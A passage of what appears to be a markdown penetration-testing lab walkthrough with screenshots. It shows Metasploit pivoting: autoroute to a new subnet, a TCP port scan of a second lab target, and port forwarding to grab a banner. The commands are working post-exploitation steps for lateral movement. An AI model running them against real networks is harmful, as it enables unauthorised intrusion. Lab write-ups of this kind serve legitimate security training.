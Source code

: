  - **ipconfig<br>**
<img src="ipconfig.png" width=70% height="auto"><br>
 - **Execute the command: run autoroute -s 10.3.25.0/20<br>**
<img src="autoroute.png" width=70% height="auto"><br>
### Use Metasploit post exploitation module for scanning the Target 2: <br>
 - **use auxiliary/scanner/portscan/tcp<br>**
 - **set RHOSTS 10.3.24.33  (ip target 2)<br>**
 - **set PORTS 1-100<br>**
 - **exploit <br>**
<img src="scanningtarget2.png" width=65% height="auto"><br>
Now, we will forward the remote port 80 to local port 1234 and grab the banner using Nmap<br>
 - **portfwd add -l 1234 -p 80 -r 10.3.24.33 (ip target 2)<br>**